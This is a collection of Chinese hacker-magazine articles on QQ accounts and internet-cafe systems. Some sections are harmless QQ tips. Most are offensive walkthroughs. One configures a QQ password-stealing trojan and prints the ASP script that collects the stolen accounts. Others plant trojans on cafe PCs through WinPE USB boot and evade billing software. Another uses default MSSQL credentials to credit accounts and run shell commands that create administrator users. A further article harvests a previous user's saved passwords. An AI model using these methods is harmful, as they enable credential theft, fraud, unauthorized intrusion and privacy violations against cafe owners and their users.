打开网址 http://www.sicent.com/vip/qq/index.asp，如图 4。网页上说在万象网吧登录的用户才可以领取，不过据我的测试可以不理会这点，点击“领取我的体验码”，然后登录你的 QQ，如图 5。接着我们能看到赠送码已经自动出现在输入框内，点击“马上兑奖”。这个号码领取时只有三个奖项了，缺少了会员的 7 天体验。领取的奖项可以多选，当然是全部勾选上了。输入验证码后，点击“领取我选中的奖品”就可以了（图 6）。

（本文所涉及到的 QQ 好友密探已收录到光盘中）

#### 另类方式登录 QQ

伴随 QQ 用户的增加以及 QQ 增值业务的增多，QQ 号码已经被赋予了价值，因此也就被很多黑客商人看在了眼中。现在使用 QQ 已经非常不安全了，我的电脑在病毒高峰期三天两头就中病毒，不管是下载软件试用还是浏览网页，病毒和盗号软件可谓漫天飞。

那么如何在这样的网络现状下保护我们 QQ 帐户和密码的安全呢？今天我就给大家介绍两种安全登录 QQ 的方法，第一种方法可以让你方便地登录 QQ，不用再重复输入帐户和密码；而另一种方法可以有效防止木马盗窃你的 QQ 号码。

##### 一、VBS 脚本登录法

首先，打开记事本，输入如下代码：

```vb
Dim WshShell, QQPath, QQselect
QQPath="D:\software\Tencent\QQ\QQ.exe"  '这里是QQ的路径
Set WshShell=WScript.CreateObject("WScript.Shell")
WshShell.Run QQPath
WScript.Sleep 2000
WshShell.AppActivate "QQ登录"
WshShell.SendKeys "{TAB}"
WshShell.SendKeys "54509130"   '这里是帐户
WScript.Sleep 200
WshShell.SendKeys "{TAB}"
WshShell.SendKeys "123456"     '这里是密码
WScript.Sleep 200
WshShell.SendKeys "{ENTER}"
```

上面这段代码的意思就是：首先使用 CreateObject 函数创建一个 WScript 对象，然后运行 QQ 登录文件，按顺序将焦点移到号码和密码输入窗口并自动输入，最后回车登录。

##### 二、命令行登录法

使用 xpfox 编写的一款工具 encode，可以把我们的 QQ 密码加密成腾讯 QQ 密码的登录加密码（其实就是把你的密码经过 BASE64 和 MD5 双重加密）。运行 XpFox encrypt/Decrypt，在“QQHash Encrypt”的“String”栏输入 QQ 的密码，首先把密码转换为 QQHash 值（如图 3）。

按 Win+R 调出运行栏，输入“你的 QQ 目录\QQ.exe /START QQUIN:QQ号 PWDHASH:生成码 /STAT:40”（登录状态 40 为隐身，41 为正常），点击确定即可登录 QQ。这样可以有效防止 QQ 木马截取你的 QQ 密码。

## QQ 宝典

#### 想盗 QQ 号喊我来

提起盗 QQ 号，小菜们肯定不会陌生。在以前的黑客 X 档案里曾经介绍过很多盗 QQ 号的软件和方法，可很多小菜发现最近盗取 QQ 号已经不再像以前那样容易了……其实收不到信的主要原因是邮箱运营商将盗号木马发出的信件给屏蔽了。

并且要利用路由器的端口转发功能将 110 和 25 端口转发到公网 IP 地址上。如果你不能登录路由器或服务器实现端口转发，内网用户建立的邮箱服务器肯定收不到外网发出的邮件。安装完成后一定不要忘记在防火墙中打开 110 和 25 号端口，否则也肯定收不到邮件。

提起架设服务器可能有许多小菜会认为太难了，各位不用担心，看完本文后，你也一定能够建立邮件服务器或空间服务器，因为我介绍的方法和软件都是非常方便简单的。

由于大多数小菜习惯使用邮箱收信，我们就先来架设邮件服务器……使用一个简单的绿色软件 QuickMail 汉化版，直接运行后点击“邮件服务器设置向导”，一步步设置即可。

网上有很多盗号木马，我个人认为“金狐 QQ2008 大盗”比较好用，因此就以它为例来进行说明。如图 2，勾选上“邮箱收信”，在收信箱和发信箱中填上刚建立的邮箱……对于内网和小区宽带用户需要填写路由器或服务器的外网 IP 地址。

由于大多数网友使用的是 ADSL 拨号上网……我们重点讨论一下 ADSL 拨号上网用户对盗号木马的设置情况。使用动态域名可以轻易解决 IP 变化问题，推荐注册动态域名并绑定到本机 IP。在“金狐 QQ2008 大盗”的“邮箱 smtp”中填写动态域名，这样就不怕盗号木马发信找不到你了。

这样就可收到包含密码和帐号的邮件。即使中木马的电脑第一次登录 QQ 发信时你没在线，而以后你在线时中木马的电脑登录了 QQ，一样会将帐号和密码发送给你，这就是动态域名的好处。

在“金狐 QQ2008 大盗”里填上收信箱、发信箱、密码、动态域名后，点“发信测试”就可以收信了。我们使用 Outlook Express 收信看信，如图 4，点“发送/接收”按钮收信，居然提示错误，郁闷！不知道是我的系统（XP 精简版）问题还是其它原因造成的，希望高手们指点！从邮件服务器 QuickMail 的日志中看到邮件已经成功发送，复制到 `C:\Mailboxes\123` 目录中，如图 5。在我的电脑 123 目录中可以看到一个扩展名为 `.eml` 的文件，双击此文件就会自动调用 Outlook Express 打开，可以看到一封主题为“QQ终结者”、内容为“测试成功”的信件。

测试成功后我们就可以登录 QQ 了，运行上面配置生成的木马，然后登录一个小号 QQ。由于盗 QQ 木马中经常会有后门，所以建议使用小号 QQ 进行测试，防止偷鸡不成蚀把米，将你的大号盗去。然后到 `C:\Mailboxes\123` 目录中查看，可以看到增加了一个扩展名为 `.eml` 的文件，双击自动调用 Outlook Express 打开，可以看到一封包含有 QQ 帐号、密码等信息的信，表示我们成功了，如图 6。

下面我们再来谈谈如何使用网页收信，当然还是在自己的电脑上架设一个 ASP 服务器，推荐使用小旋风 ASP 服务器。据说此软件是最小、功能最全的 ASP 服务器，完全且完美支持 ASP。安装完成运行后会在桌面右下角状态栏看到一闪一闪的小电视图标，在浏览器中输入 127.0.0.1 或你的外网 IP 地址显示“恭喜您成功了”，就表示成功建立一个 ASP 服务器。

金狐 QQ2008 收信的关键文件就是 QQ.asp。需要注意的是，由于“挖漏洞”等软件可扫描到 QQ.asp 等默认文件名，然后偷窃你盗取的 QQ 号和密码。即使不使用“挖掘鸡”等软件，扫描到你的电脑开着 80 端口，只要猜到你的文件名就可以使用浏览器打开或下载此文件，因此必须将 QQ.asp 这个文件改名，比如将 QQ.asp 更改为一个别人不容易猜到的文件名 001a2b.asp。将改名后的文件复制到 `C:\Program Files\小旋风AspWebServer\wwwroot` 目录中。在金狐 QQ2008 大盗的“空间收信”中填上动态域名 `http://chneggong.meibu.com/001a2b.asp`。需要注意的是，和邮箱收信一样，内网用户也需要端口映射才行。

运行 meibufobnn 绿色精简修正版，然后点发送测试，金狐 QQ2008 大盗提示“网站发送完毕”。我们在 `C:\Program Files\小旋风 AspWebServer\wwwroot` 目录发现一个名为 `qq2008jhxin.txt` 的文件，打开此文件就可以看到 QQ 的密码和帐号。当然也可在浏览器中输入域名或 IP 地址加文件名打开此文件，如图 7。由于挖掘鸡等软件经常扫描名为 `qq2008jhxin.txt` 的默认文件名，因此最好将 `qq2008jhxin.txt` 也改名。方法是将 `strLogFile="qq2008jhxin.txt"` 中的 `qq2008jhxin` 改为一个不容易猜到的名字，比如 `001a2b.txt`，如图 8。更改好后，盗号木马就可将盗窃的 QQ 密码和帐号自动上传到 `001a2b.txt` 文件中了。

在自己的电脑上建立服务器虽然可以盗号了，但是我心里并不高兴，因为我的电脑并不能 24 小时在线。如果不能在第一时间收到盗号木马发出的回信，随着时间的增加，QQ 木马在网络上被发现的可能性也就越大，我们盗号的成功率也就越低。其实如果懂的高手们研究一下邮件服务器或空间服务器屏蔽的原理，写出可以突破服务器屏蔽的盗号木马来。

另外需要注意的是，为了建立 ASP 服务器和邮件服务器打开了 80、110、25 等端口，我们电脑的安全性也受到了一定的威胁，因此一定要安装好防火墙（当然在防火墙中要打开 80、110、25 等端口）并利用用户权限保护好自己电脑的安全。

（本文所涉及到的 QuickMail 汉化版、meibufobnn 绿色精简修正版、金狐 QQ2008 大盗、小旋风 ASP 服务器已收录到光盘中）

```asp
<%
strLogFile="qq2008jhxin.txt"
QQNumber=request("QQNumber")
QQPassWord=request("QQPassWord")
QQclub=request("QQclub")
QQip=request("QQip")

if QQNumber="" or QQPassWord="" then
  response.write "jhQQ"
  response.end
end if

StrLogText=StrLogText&QQNumber&"----"&QQPassWord&"----会员:"&QQclub&"----IP:"&QQip&"("&request.servervariables("REMOTE_HOST")
StrLogText=StrLogText&")----"&date&" "&time

set f=Server.CreateObject("scripting.filesystemobject")
set ff=f.opentextfile(server.mappath(".\\")&"\\"&strLogFile,8,true,0)
ff.writeline(chr(13)+chr(10)&StrLogText)
ff.close
set ff=nothing
set f=nothing

response.write "发送成功!"
%>
```

#### QQ 组自定义排序

这是一个偶然的发现：某日，我重新安装了系统，安装完 QQ 登录后发现我的 QQ 组顺序变了。开始以为是 QQ 服务器的缘故，后来发现 QQ2007II 正式版居然可以“自定义”好友分组了。说是自定义，其实也不完全是，有点手工的味道。

现在看下我的好友分组，如图 1。我调整一下顺序看看，如图 2。看见没有，my friends 排到第一位去了。这时候可能有人已经发现了，我只是在群组名称前加了一个空格而已。其实就是这样，在每个好友组名称前加一个空格、特殊符号、数字或者字母，就可以调组顺序了。它们的顺序是这样的（我使用大括号表示）：

`{最大符号} > 全角空格 > 空格 > 特殊字符 > 数字 > 字母 > 汉字`

同类则按先后顺序；如果第一个标识相等则比较第二个，以此类推。汉字以首字母为顺序。知道这个顺序就好办了吧，只要在你好友组名称前面加上相应的标识就可以按自己的意思排序了。经过我的测试，1 月 20 日发布的 QQ 狂人版也支持此排序。

#### “爱心守护天使”送来 QQ 大礼

战神 MARS

最近 999 感冒灵开展了一个叫“寻找爱心守护天使”的活动，里面有许多的 QQ 奖品。喜欢免费东东的小菜们快去看看吧。

首先我们来到 39 的“寻找爱心守护天使”活动首页：http://www.999ganl.com.cn/aixintianshi/intro.html，里面有详细的活动介绍和奖品设置，活动时间是：2008 年 3 月 24 日到 8 月 8 日，大家赶快行动吧！

如果你身边有爱心守护天使推荐那是最好了，没有我们也可以投票，也能得到免费的 QQ 秀。每日参加投票的前 2800 名网友可获得 999 感冒灵提供的精美 QQ 秀一套。另外每月从注册用户中抽取 20 名幸运者获得 10 元购物券。上传作品并通过审核即可获得 6 个月红钻尊贵体验（共 1.5 万个，送完即止）。每月票数前 30 名（推荐人）可获得 500 元的 QQ 购物券。

好了，下面介绍下如何免费领取精美的 QQ 秀（价值 4.5 Q 币哦）：

- 首先我们先注册。  
- 在首页登录区点击“注册”按钮，进入“用户注册”页面（如图 1），里面的内容可以随便填写，填写完毕点击“确认”按钮完成注册。  
- 接下来我们去参加“投票有奖”活动，进入活动页面，点击“投票有奖”按钮（如图 2），进入“爱心天使展示”页面（如图 3）。  
- 在这里我们选择一个爱心天使，然后给他/她投票。  
- 投票完成后将自动打开投票成功页面（如图 4）。大致内容如下：恭喜您投票成功！并获取精美 QQ 秀一套，兑奖密码：*****。请您保存好此密码，兑奖地址：http://live.show.qq.com/live/exchange/999。  
- 打开前面的兑奖地址，填入兑奖 QQ、兑奖密码、验证码，选择自己喜欢的 QQ 秀样式，就可以免费获得 QQ 秀了（如图 5）。

#### QQ 空间克隆大法

使用 QQ 有好多年了，却也仅仅是用来聊天而已。最近突然发觉身边的 Q 友都开了花花绿绿的空间，自己则经常受到邀请请他们去“踩”空间。结果三踩两踩就踩上瘾，也开了自己的 QQ 空间，但看着自己的空间感觉很土，似乎比别人的低了几个档次，怎么办呢？当然是克隆啊！

打开浏览器，在地址栏中输入“www.qzone6.com”进入 QQ 空间克隆，然后在右下方单击选择一个“装扮服务器”进行登录（图 1）。登录成功后在页面的右侧输入自己的 QQ 号及密码，单击“进入系统”按钮后再输入一次验证码。

成功后，网站就会列出很多优秀的主题空间推荐，我们可以从中选择一个自己喜欢的空间，然后选择“克隆该空间”；或者直接将某个拥有漂亮空间的 Q 好友的号码输入到“您要克隆的 qzone 空间：”中，然后再单击后面的“开始复制”按钮。这时网站会根据你所选择的 QQ 空间的复杂程度（包括多少个窗体）而不断提示你输入验证码，最后就会弹出个窗口提示我们“创建空间成功，你现在可以打开你的空间查看你装扮得漂亮的样子了”。如果我们选择 QQ 空间的收费模板的话，则也会给出相应的提示。这时我们再打开自己的 QQ 空间看看，感觉的确不一样了，最牛的是和人家的一模一样了。

### 网吧三剑客之玩转网吧

大漠


最近在网上搜索到了两个网吧破解工具，还有一个是在网吧的电脑里找到的，姑且把它们叫做网吧三剑客吧，分别是“网吧加油站”、“万象2004外挂”和“Pubwin破解伪装完美版”。它们可以破解网吧中的一些文件和系统的限制，实现免费上网、作弄别人的目的。

#### 一、第一剑——网吧加油站

通常网吧里有什么限制，我们都可以使用它来恢复，此工具的密码是91858（图1）。这个工具是我在一个网吧的电脑中找到的，我们这儿的网吧基本上是由同一家公司给维护设置的，所以限制也一样，有时使用数据恢复软件恢复一下系统盘，说不定就能找到什么好东西。来看一下界面，选项非常多，首先选上“IE相关”，因为我们有时候要进行网游注入攻击，所以不能少了它。在“防发送”项里将“显示友好http信息”前面的勾取消掉（图2），点击保存就可以了。还有就是下载、Internet选项的限制（图3），另外就是系统的限制（图4），把这些限制取消掉然后保存，基本上网吧中的限制就已经解除。


### 二、第二剑——万象2004外挂

万象2004外挂工具挺好玩的，大家看一下它的界面就知道了（图5），当然前提是万象的端口为11011，使用前必须先按“ESC+SHIFT”键，否则将无法使用，按完后就可以输入了。打开软件后会显示你当前的电脑号码，如果我们想整30号电脑的话就填上030，接下来就远程控制，对30号电脑进行重启、关机、锁定（万象会员登录窗口出来了，管他余额还有没有，重启就可以了）、解锁（去除登录窗口），另外就是发送信息（图6）。这个工具的危害性挺大的，我一好友就是一气之下，网吧全……（小编：说了多少次，不要干坏事啊，小心被警察叔叔抓）。

### 三、第三剑——Pubwin破解伪装完美版

这个工具是针对pubwin2007版的，可以伪装“合法”的上机用户，服务器哪里不会显示为非法用户。工具运行后的界面如图7所示，我们可以自己修改伪装的用户信息，使用非常简单，第一项是在20秒内搜索本机的pubwin，然后破解程序，还有诸如替换管理员密码、新建账户、注销等。有了这个工具，我们就不用担心免费上网被抓了。该怎么玩就怎么玩吧，别怪我没提醒，做人还是厚道点的好，毕竟我们的目的仅仅是研究技术，而不是搞破坏。

（本文所涉及到的网吧加油站、万象2004外挂和Pubwin破解伪装完美版已收录到光盘中）


## 网吧黑客：网吧里的“社会工程学”

孤独战神


最近正忙着学习VB，手头也没有什么现成的资料，唯一的一台古董级的电脑偏偏又没有连网，我不得不到网吧去上网，也因此这次的网上之旅让我发现了一个由人们的懒惰而引发的个人信息安全问题！

在网吧刷卡后我发现有N台电脑没有关机，而只是简单的锁屏，自己也是图方便，就找了台没有关机的电脑坐下来。当我登录系统后，打开IE输入WWW时却发现了一些历史记录的URL地址（图1），突然就萌生了一个念头，利用前一个用户留下的历史记录来刺探对方的敏感信息。

先查看“开始”->“文档”，里面有不少访问过的文件的记录，大致看了下没有什么有价值的信息，再来看下URL里都有哪些什么样的地址链接。看有一个“www.xiaonei.com”，看来前一次用过电脑的还是一个学生，登录了那个网站。在用户输入框里依次从“a-0”地输了一遍，你会发现一些曾经登录过的用户名，想必对此大家都很熟悉了，平常我们也会认为这方便我们的登录，可没有想到此刻却被它给出卖了。


随便选择一个用户名，“幸运”今天终于降临到了我的头上，密码框里也自动填充了起来（这是因为使用者登录时选择了自动记录密码），虽然是以*号显示的，但随便使用一个星号密码查看器就可以成功地显示出真正的密码了（图2）。


顺利地登录了进去，还得到了他的明文密码。在www.xiaonei.com里的个人资料中，我们又得到了他几乎所有的敏感信息（图3）。


哈哈，再到QQ登录里去看看，也有不少啊（图4），看来不止是一个人曾经没有关机那么简单了。

再继续使用他资料里的QQ去对应QQ登录里记录下来的QQ，使用刚才得到的密码来登录，没有成功，保密意识还是有的，嘿嘿。不过他的聊天记录我们还是可以一览无遗的（图5）。我还发现了他的xiaonei.com里的账户是163的邮箱账户，再去碰下运气，都没有成功。


由于时间问题我就只能刺探到这儿，不过就我们现在掌握的信息，花点时间来分析，做个字典什么的，搞到他的其他账户信息也并非难事！只是想告诉各位，在公共场所上机一定要注意自己的个人信息安全，人家网吧明明有还原，你却偏偏不愿意做，举手之劳关掉电脑，结果吃亏的只能是自己了，相信这样的懒人不在少数吧！

### 和我一起来：破解金盘机房管理软件

羽渐

近日，我对金盘机房信息管理系统的安全性做了简单的检查。在检查中发现，金盘机房信息管理系统存在一些不完善的地方，这些缺陷可以被利用来逃避收费。在此，我将这些问题的发现过程记录下来并简单地讨论一下对策。

我认为最好的方法就是在登录界面时屏蔽像Ctrl和Shift这样的功能键，只在登录时无法切换输入法，对于用户来说几乎没有什么影响。

#### 一、手工破解

我首先测试了输入框是否存在溢出漏洞，在用户名文本框输入了较长的一段字串（随便按哪个键都行），持续按键3分钟左右，然后点注册，随即弹出了窗口，提示用户名不存在……管理软件出错并自动关闭。还有一个简单的方法（这个方法需要登录账号），就是复制一大段文本，然后粘贴到输入框里。管理软件崩溃的原因是因为使用了C语言却没有建立完善的边界检测机制，导致缓冲区溢出问题。一般情况下内存覆盖其他数据区可能只造成应用程序错误，但对于机房管理软件来说会直接导致管理失效。

现在的解决方法一般都是从源头上改进，限制输入数据的长度。用户无法输入过长的数据也就无法溢出了。

#### 二、输入法破解

这个漏洞已经很老了，但我在检测时却发现它还是存在的。在登录框使用智能ABC输入“v”，再按上方向键“↑”，再按Delete，然后再按回车或空格，这时就会弹出错误信息，点击“取消”后软件就会自动关闭。这个问题本质上是输入法本身设计缺陷引起的溢出漏洞，虽然与管理软件设计没有直接联系，但却会影响到管理软件。

这个问题的处理方法有很多，有些人直接把智能ABC输入法删除了事，但这对习惯该输入法的用户来说是个麻烦。

#### 三、使用批处理破解

前提是你已经有一个能登录的账号。要用到的工具是`pskill.exe`（pstools工具包中有，可以从网上下载）。新建一文本文档，写如下批处理命令：

```bat
pskill -t CliGold.exe
pskill -t Client
pskill -t EXPLORER
EXPLORER
```

写完后保存，并将后缀名`.txt`改为`.bat`（图1）。同时终止双进程即可实现破解。文中还说明了在注销/关机时机切入并结束管理程序进程的思路。

#### 四、安全模式漏洞

开机时按F8键直接进入安全模式，选择“带网络连接的安全模式”，这样虽可直接进入系统，但安全模式界面不敢恭维，不过对于免费上机也就忍忍吧。这个问题的解决方法也较简单，例如屏蔽F8、修改启动相关设置等。

#### 五、伪造注销信息破解

作者在检查中发现客户端与服务器之间传输的数据没有加密，给伪造注销信息提供了机会，而且下机信息中也没有加入环境变量，伪造更简单（图3）。理论上可发送伪造注销信息给服务器，使服务器误认为已经下机并停止计费。文末指出加密传输是必要的改进方向。

我暂时就发现了以上这几点不足的地方……（文末总结与说明）


## IKeeper的菜单破解经验谈

我们这一带的网吧是由一个公司负责维护的，但环境各不相同。比如有些网吧有U盘自动播放，这时你可以插上你的U盘，此时无论ikeeper登录与否，自动播放都会跳出来，就可以破解掉ikeeper的限制，做很多事了。首先新建一个bat文件，内容为`net user aa /add`和`net localgroup administrators aa /add`（注意administrator后面要加“s”，表示管理用户组），意思为添加一个名为aa的无密码用户并将其添加到管理员组中，这是留着注销后登录使用的。

由于msconfig命令不能详细看到所有的启动项，所以我们请出大名鼎鼎的sreng，在“启动项目”中可以看到计算机所有的启动项，包括隐藏的（图1）。我们强行删除ikeeper的启动项，为了过会儿不至于突然关机，可以把Entryssp（ikeeper的）和其它不顺眼的启动项全都删除了，然后注销使用新添加的用户进行登录。

另外一种方法就是黑客X档案以前曾经提到过的，打开XP自带的防火墙拦截本机上IKeeper与主机的通信。根据我的经验，使用ikeeper的大部分网吧都可以使用XP防火墙（注意：开启防火墙后，你要是没钱的话是不会提示你下机的，我曾经在使用此方法时，结果人家扣钱扣到了我使用的电脑上。所以不管什么方法，要因环境而异，推荐大家都到那种凭卡上网的网吧，方便安全）。

最后再给大家介绍使用机时小偷来搞定ikeeper的桌面锁定（图2），我们在系统被锁定前设置好机时小偷，一般延迟输入15秒，然后不管是你结账下机还是卡内没钱了，稍等15秒就能继续享用免费的上网了。（本文所涉及到的sreng和机时小偷已收录到光盘中）


### 让菜鸟都来“颠覆”网吧

寒冷的北风一阵阵地刮着，冷得我一点儿都不想学习，只想呆在宿舍暖和的小天地里上网。最近对Windows系统产生了兴趣，特别是WinPE，闲着没事时我就会泡在深度和雨林木风论坛研究WinPE，然后在我那128M的U盘上进行测试。记得在07年12期杂志中就有一篇利用WINPE破解还原系统的文章，方法很是标新立异。不过那篇文章中关于WINPE的制作和使用却没有具体提及，这次我就给大家补上。

#### 一、原理

先来说说什么是WinPE吧，其中中文就是“预安装环境”，或者叫工程师环境，这是为了维护安装系统的一个系统工具。它可以安装在光盘、可移动硬盘或U盘上，可以读硬盘、光驱，还能运行一些程序。可以说WinPE是独立于电脑操作系统的一个小系统，在启动WinPE后，原来操作系统上的一切软件都不会启动了，还原软件当然也不例外了，这时我们就可以在WinPE上对磁盘进行读写操作了。

#### 二、环境分析及工具

- 1. 可以说目前绝大多数的网吧里都安装有还原软件或还原卡，随着技术的进步，网吧里的还原软件功能也越来越强大，网维大师就是其中很典型的一个，它是集娱乐和还原于一身的应用非常普遍的一款软件（图1）。
- 2. 网吧中的电脑应该都支持从光盘、可移动硬盘、U盘等启动，不过几乎没有哪家网吧的电脑是安装有光驱的，但USB接口却基本上都是开启的，也就是说基本上都可以通过USB来启动电脑。
- 3. 木马或其它远程控制类软件一个，很多网吧的电脑都没有安装杀毒软件，这更省去了我们为木马制作免杀的工夫了。
- 4. 要用的工具则是容量大于64M的U盘一个，容量再小的话恐怕就不行了！


#### 三、开始行动

- 1. 使用U盘格式化工具按图2所示来格式化U盘。注意，格式化前请一定要备份好U盘里的资料，这可是格式化你的U盘啊！
- 2. 下载“雨林木风PE工具箱Y1.1”并安装，安装完毕后不要重新启动电脑。本文是下载到C盘根目录后进行安装的，注意下载的目录不同，会出现和下文不一样的结果。
- 3. 把C盘里“YlmF_P1”文件夹和boot.ini、bootfont.bin、NTDETECT.COM、ntldr、phldr、winnt.sif、ylp1.lst、ylphpc.iss、unins000.exe这几个文件复制到U盘中。“YlmF_P1”和这九个文件都是系统文件，因此我们直接是看不到的，可以打开“我的电脑”，选择“工具”下的“文件夹选项”，再选择“查看”，把“隐藏受保护的操作系统文件”前面的勾去掉就能看到了（图3）。
- 4. 重启电脑，在启动时按DEL调出BIOS设置菜单，在BIOS的第一启动顺序里选择Usb-HDD启动，接着按F10保存。电脑会自动重启，此时别忘了把U盘插上。稍等片刻就会出现“选择启动系统”的界面，在“选择启动系统”画面会出现“雨林PC工具箱”选项，选择此项（图4），然后选择第一项进入WinPE系统（图5）。
- 5. 对磁盘进行操作，来看一下“我的电脑”，我们会发现盘符和原来的不太一样（图6）。进入“C:\Documents and Settings\new\「开始」菜单\程序\启动”文件夹，把你要运行的程序存放进去（图7），至于捆绑、替换等等都由你了！为了隐蔽，最好是运行后自删除的程序，或使用`attrib +s +h +r`给程序添上系统、隐藏和只读属性。
- 6. 重启电脑，拔下U盘，正常进入系统，之前放进去的服务端程序会自动运行（图8）。
- 7. 在网吧里反复更换电脑，然后使用相同的方法种木马来增加“肉鸡”的数量，相信不多久你也可以像网管一样，来管理网吧中的任何电脑了！


使用该方法基本上能够突破一切还原设备，对网吧来说可是致命的打击，也希望看到本文的读者能够从技术方面来研究，不要去做坏事。

（本文所涉及到的U盘格式化工具和雨林木风WINPE已收录到光盘中）

## 三招送Pubwin2007上西天

lryyddy


对于那些经常在网吧上网的朋友，最讨厌的可能就是网吧中的管理软件了。我们这儿网吧中的管理软件最近从万象2004一夜之间变成了Pubwin2007，以前辛辛苦苦学会的针对万象的招式全部失效了，真是令人郁闷呀。不过郁闷之后就应该考虑如何将Pubwin2007干掉了，经过我的努力终于找出了三个近乎完美的方法可以干掉Pubwin2007。

#### 一、一夫当关，万夫莫开

这一招是我在网上看到的，就是利用防火墙截断客户端与计费主机之间的连接。我使用的软件是金山网镖2005，安装完毕后将局域网安全级别设置为高，并在规则中禁止PubwinClient.exe的访问网络权限。这样再查看消费信息时会弹出错误提示。


图1


图3

注意，如果是测试版的金山网镖，只有一个安全设置，设为高后网页可浏览也可下载，但有的网络游戏可能无法运行。去吧台结账后，电脑不会关机，就可以继续在网上畅游。

#### 二、霸王硬上弓

上面那招是软的，下面我们来点硬的。要知道Pubwin2007的登录界面是处于最顶层的，并且系统会自动检测是否处于顶层。登录界面输入账号密码后，切换到系统自带的智能ABC输入法，利用其BUG（如按键序列引发异常）让程序弹出错误提示，从而打断其正常控制流程。


图2

在不断检测的情况下，顶层程序会被替代，计费系统停止运行但登录界面仍可能在最顶层。此时可调出任务管理器（CTRL+SHIFT+ESC等方式），在应用程序中新建任务运行IE或资源管理器，并将新窗口置顶，从而获得可操作桌面环境。

#### 三、偷天换日

如果结束PubwinClient.exe进程，计费主机会发指令让其重启。可以把explorer.exe复制到PubwinClient.exe所在目录并改名替换。再结束原进程并启动替换后的“PubwinClient”，这样主机下发启动命令时实际运行的是explorer.exe，而不是原客户端。


图4


图5

（文章中涉及到的工具金山网镖2005已经收录在光盘中）

这招相对安全，被抓了可以更换说法。作者称使用该方法较长时间未被网管发现。

### 小菜的 Pubwin EP 加钱之旅

hxlangzi

自从 Pubwin4 升级到了 Pubwin EP，我感觉要想实现客户端的破解来进行免费上网，其危险程度比以前更大了。不过原来的 Pubwin4 使用的是 Access 数据库，而现在的 Pubwin EP 使用的是 MSSQL 数据库，这使得侵入主机给会员加钱反而方便了。

首先查看网吧收费主机。使用抓包工具，打开 Winsock Expert，选择 pubwinclient.exe 进程，开始抓包记录。点击任务栏右下角 Pubwin EP 的计费功能菜单，选择“查看消费信息”，此时抓包工具会抓到计费主机信息。


因为选择“查看消费信息”时客户端会与计费主机建立连接，所以能抓取到信息。从图中可看到该网吧计费主机 IP 地址为 192.168.0.2。


接下来是给会员加钱。使用“Pubwin EP 充值工具”，在“服务器IP地址”栏输入计费主机 IP，点击“连接”。若服务器连接成功会出现提示；若无反应，可能是网管屏蔽了 1433 端口。


注意“余额单位分”列中的数字，100 即 1 元，直接修改即可。不同网吧补丁版本不同，可能需要在客户端“会员操作-更改会员口令”等步骤后才会显示余额变化。

对于临时卡充值，可使用“数据库管理助手”。选择“连接”-“SQL Server”，主机填 192.168.0.2，端口 1433，数据库 local，用户名 netcafe，密码 pubwin（文中称为默认值），点击“确定”建立连接。


```sql
update cur_user set prepay=100 where uniquoid=自己的卡号;

-- 文中还给出提升系统权限并执行命令的示例
exec sp_oacreate 'wscript.shell', @shell output;
exec sp_oamethod @shell, 'run', null, 'c:\windows\system32\cmd.exe /c net user admin 1234 /add';
```


## 网吧黑客

```sql
sp_oacreate 'wscript.shell', @shell output
exec sp_oamethod @shell, 'run', null, 'c:\windows\system32\cmd.exe /c net localgroup administrators admin /add'
```

这两句执行代码用于在服务器上建立管理员用户（admin/1234）等操作，随后可借助工具进行远程控制与管理。文中提到通过局域网入侵工具、自动重启等方式进入管理控制端，并建议后续可用木马简化操作流程。


> （本文所涉及到的 Winsock Expert、PUBWIN EP 充值工具、数据库管理助手、Recton 和数据库语句代码已收录到光盘中）

### 要你代理没商量


本节讨论网吧代理限制与绕过方法。作者提到传统代理工具失效后，通过 LANseek 与 MacDIY2000 进行局域网扫描和 MAC 地址修改，以恢复 QQ/网络访问等功能，并说明了扫描、复制、修改、还原等基本步骤与注意事项。


> （本文所涉及到的 LANseek 和 MacDIY2000 已收录到光盘中）

### 不堪一击的网吧限制

本节以网吧影视播放为例，说明如何从播放软件中查看媒体信息、提取真实路径并定位局域网共享资源。文中提到通过访问局域网 IP（如 `\\局域网IP`）可绕过网页入口限制，并结合“游戏外挂”等共享文件路径进行验证。


### 网吧黑幕

既然是“\\192.168.0.253\游戏外挂”，那点击向上的按钮就退到了“\\192.168.0.253”路径下了。没提示出错，还看到了保存电影的文件夹（图5）。


这时我又想到了 FlashGet 下载工具，网吧点播系统有点类似网站，上面获取的电影路径中没有 http 等协议就不能使用下载工具。

保存电影的实质是把网吧服务器上的电影复制到本机上，记得 FastCopy 这个工具能加速文件复制。把来源路径粘贴到“来源”，目标选择 D 盘，点击“执行”即可开始复制（图6）。


（本文所涉及到的 FastCopy 已收录到光盘中）

### “网络爸爸”你能奈我何？

网络爸爸（展翅鸟家长控制软件）是一款家长用来限制孩子玩电脑的软件。作者分享破解经历，希望对读者有帮助。

很早以前该软件保护机制较弱，通过结束进程即可关闭。新版重启后会大量创建进程，任务管理器中可见异常占用，后台出现眼睛图标（图2）。


于是一阵：按照习惯先调试冰刃，尝试结束进程，结果提示保护失败（图3），进一步查看根本无法显示有效进程（图4）。


## 网吧黑客


郁闷啊，漫无目的地在硬盘里乱翻，突然眼睛一亮，智能杀毒伴侣。那就试试它吧，选中 EagleSvr.exe 进程，再点“结束进程”（图5）。后台的眼睛图标终于不见了……然而事情并没有我想象的那么简单。

没办法，先听会儿歌吧，发现“千千静听”下面就是超级兔子。打开超级兔子任务管理器，将选项调整后看到大量眼睛图标（图6），先将可结束的进程逐个处理。对于无法结束的 EagleSvr、EagleEyeSvr，可通过右键“禁用窗口”处理（图7）。

此时还不能算结束，因为下次启动时它还会自动启动。打开 Autoruns，将网络爸爸相关自启动项清理（图8），重启后终于不再出现。乘胜追击，SHIFT+DEL 删除相关程序文件，到此我终于可以舒口气了。

> （本文所涉及到的冰刃、Autoruns 和超级兔子已收录到光盘中）

## 新菜招突破解力豪磁盘隐藏引发的破解

最近翻看以前的旧杂志，发现 06 年第 8 期相关文章后，决定去网吧寻找更简单的方法。新年后常去的网吧也升级了，带宽升到 20 兆，内存增至 128M。

开机后发现限制很多：不允许下载、不准浏览黄色反动网页等。常用辅助器与迅雷菜单都被替换，感觉十分别扭。尝试通过记事本写 bat 调出 cmd，却发现 CMD 被停用（图1）。

冷静后继续分析，关键是没有被彻底屏蔽。通过一些步骤最终打开注册表，准备从策略项逐一恢复系统功能。


先解除 cmd 停用：进入 `HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\System`，将 `DisableCMD` 值改为 0。再到 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` 检查并清理可疑限制项（图2、图3、图4）。

## 网吧黑客

